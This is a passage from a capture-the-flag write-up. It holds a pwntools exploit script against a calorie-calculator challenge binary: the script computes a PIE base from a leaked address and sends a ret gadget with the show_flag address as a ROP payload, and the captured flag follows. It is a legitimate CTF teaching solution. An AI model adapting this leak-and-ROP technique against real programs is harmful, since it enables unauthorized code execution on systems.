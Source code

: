 ```python 
io.recvuntil(b'Enter the calories per gram for a: ')
io.sendline(b'1.4')
io.recvuntil(b'Enter the amount in grams for a: ')
io.sendline(b'2.0')

io.recvuntil(b'Enter the name of ingredient 3: ')
io.sendline(b'a')
io.recvuntil(b'Enter the calories per gram for a: ')
io.sendline(b'3.1')
io.recvuntil(b'Enter the amount in grams for a: ')
io.sendline(b'2.3')

io.recvuntil(b'Enter the name of ingredient 4: ')

base_add =  flag - elf.sym['show_flag']
ret = base_add + 0x101a
payload = p64(ret)
payload += p64(flag)
print(f'base_add: {hex(base_add)}')
io.sendline(payload)
io.sendline(b'aaaa')

io.interactive()
```

![Flag](assets/flag.png)


### Flag
`FLAG{B3_c4r3fu1_wh3n_using_th3_f0rm4t_sp3cifi3r_1f_in_sc4nf}`
